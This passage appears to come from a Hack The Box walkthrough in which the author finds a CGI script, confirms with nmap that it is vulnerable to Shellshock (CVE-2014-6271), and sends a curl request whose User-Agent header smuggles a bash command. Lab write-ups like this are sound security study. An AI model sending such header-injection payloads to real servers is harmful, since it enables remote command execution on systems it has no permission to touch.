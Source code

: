 ~~~
┌──(emvee㉿kali)-[~]
└─$ curl http://$ip/cgi-bin/user.sh                              
Content-Type: text/plain

Just an uptime test script

 13:08:06 up 15 min,  0 users,  load average: 0.00, 0.02, 0.00
~~~
It looks like a Bash script is availble in the **cgi-bin**. I've no ideau how I can use this for the moment. I have to a bit of research on the internet and I've found a website with some details about pentesting cgi on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi).
While reading the article on hacktricks I noticed that nmap could detect a shellshock vulnerability as well.... So let's try it on my target on HTB.
The command what I have to use is: **nmap $ip -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh**

~~~
┌──(emvee㉿kali)-[~]
└─$ nmap $ip -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-22 19:55 CEST
Nmap scan report for 10.129.49.36
Host is up (0.028s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169

Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
~~~

Another method according hacktricks is to run the command against the user-agent with curl and adept the command with a sleep command. If the response has a delay, it is vulnerable to a shellshock exploit. The command what I use to try manually looks like this: **curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://$ip/cgi-bin/user.sh**

~~~
┌──(emvee㉿kali)-[~]
└─$ curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://$ip/cgi-bin/user.sh
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
~~~